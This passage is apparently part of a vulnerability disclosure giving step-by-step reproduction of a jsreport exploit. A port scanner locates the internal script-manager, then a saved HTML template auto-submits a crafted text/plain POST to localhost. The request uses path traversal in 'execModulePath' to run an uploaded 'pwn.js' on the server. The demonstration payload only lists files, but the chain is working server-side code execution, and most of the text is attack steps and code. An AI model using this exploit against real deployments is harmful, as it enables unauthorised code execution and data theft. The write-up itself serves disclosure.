 - run portScanner.js

    node portScanner.js **test1** **templateId**

where **test1** - name of the template (actually 'test1' that we created previously)

**templateId** - id of the template (may be extracted from the temlates URL)

F539733

e.g. node portScanner.js test1 BJe2Pi2AgB

if you don't run docker on [localhost](http://localhost) you may add docker's address as a 3rd parameter (check portScanner.js code for clarity)

e.g http://my-jsreport-addr.app

    node portScanner.js test1 id_from_jsreport http://my-jsreport-addr.app

- wait untill it finishes and logs the port number

F539741

- then create a new script in `jsreport` and name it 'pwn.js'

F539734

F539735

this script we will be able to execute on the server

so for demonstration purposes source code is:

    console.log('PWNED')
    var ls = require('fs').readdirSync('./')
    console.log(ls)

the idea is to list files in the application root directory

- insert this source code into pwn.js

F539736

- create new template 'test2'

F539737

- insert HTML code which will exploit the `script-manager` (change xxxx for the value of the previously found script-manager's port) and click `Save`

> don't forget to put the right port into code snippet

    <html>
    <head>
        <meta content="text/html; charset=utf-8" http-equiv="Content-Type">
    </head>
    <body>
        123 <img src=x />
    		<!-- xxxx is the scipt-manager's port -->
        <form id="pwn-form" enctype="text/plain" method="POST" action="http://localhost:xxxx/">
            <input type="hidden" name='{"test' value='":1, "options": {"rid": 12, "execModulePath": "./../../../data/pwn.js/content.js"}}' />
        </form>
        <script>
            var form = document.getElementById("pwn-form");
            form.submit();
        </script>
    </body>
    </html>
